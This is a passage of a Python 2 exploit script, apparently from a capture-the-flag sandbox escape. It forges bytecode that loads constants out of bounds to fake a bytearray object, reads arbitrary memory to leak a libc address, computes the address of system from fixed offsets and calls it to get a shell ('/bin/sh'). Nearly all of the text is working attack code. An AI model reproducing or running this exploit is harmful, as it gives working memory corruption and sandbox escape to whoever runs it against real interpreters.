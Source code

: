 ```text
        extended_arg +
        p16(offset >> 16) +
        load_const +
        p16(offset & 0xffff) +
        call_function +
        p16(0),
        consts
    )
    #raw_input()
    code()
def pwn(addr):
    """
    leak the content of the address and call system('/bin/sh;')
    """
    consts = (12345, )
    to_be_next = bytearray("111")
    next_ptr = id(to_be_next) 
    bytearray_type_ptr = int(to_be_next.__subclasshook__.__str__().split('at ')[1][:-1], 16)
    #print("byte array type:{}".format(hex(bytearray_type_ptr)))
    
    # _ob_next _ob_prev ref cnt ob_type
    fake_bytearray = 'a' * 4 + p64(next_ptr) + p64(next_ptr) + p64(1) + p64(bytearray_type_ptr)
    # size ob_exports junk ob_alloc ob_bytes
    fake_bytearray += p64(0x20) + p32(1) + 'aaaa' + p64(20) + p64(addr)
    to_load = 'aaaa' + p64(id(fake_bytearray) + (0x310 - 0x2e0) + 8) + p64(1) + p64(1)
    ptr_fake_object = id(to_load) + (0x310 - 0x2e0)
    #print("fake byte array:{}".format(hex(ptr_fake_object)))
    
    ptr_consts = id(consts) + 32
    offset = ((ptr_fake_object - ptr_consts) // 8) & 0xffffffff
    #print("ptr consts:{} offset:{}".format(hex(ptr_consts), hex(offset)))
    def someleak():
        pass
    
    get_fake_bytearray_function = get_code(
        someleak,
        extended_arg + p16(offset >> 16) +
        load_const + p16(offset & 0xffff) +
        return_value,
        consts
    )
    
    #raw_input()
    fake_bytearray_object = get_fake_bytearray_function()
    #print("fake byte array object:{}".format(hex(id(fake_bytearray_object))))
    _IO_2_1_stdin_addr_list = []
    for i in range(8):
        _IO_2_1_stdin_addr_list.append(fake_bytearray_object[i])
    _IO_2_1_stdin_addr = u64(''.join(map(chr, _IO_2_1_stdin_addr_list)))[0]
    #print(_IO_2_1_stdin_addr)
    #print("addr:{}".format(hex(_IO_2_1_stdin_addr)))
    libc_base = _IO_2_1_stdin_addr - 0x39f8a0
    system_addr = libc_base + 0x40db0
    
    call(system_addr)
    
if __name__ == "__main__":
    pwn(id(sys.stdin) + 0x20)
```
